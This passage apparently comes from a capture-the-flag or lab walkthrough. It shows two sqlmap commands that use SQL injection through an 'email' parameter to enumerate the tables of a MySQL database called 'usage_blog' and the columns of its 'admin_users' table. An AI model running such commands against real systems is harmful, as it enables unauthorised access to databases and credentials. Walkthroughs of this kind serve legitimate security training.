 
- Retrieve Table name 

```
sqlmap -r sql.req -p email --dbms=mysql --ignore-code=500 --technique=BE -D usage_blog --current-user staff --level 4 --tables --threads 2 --batch
```

![](./IMG/40.png)

- Retrieve Column name 

```
sqlmap -r sql.req -p email --dbms=mysql --ignore-code=500 --technique=BE -D usage_blog -T admin_users --current-user staff --level 4 --columns --threads 4 --batch
```

![](./IMG/41.png)
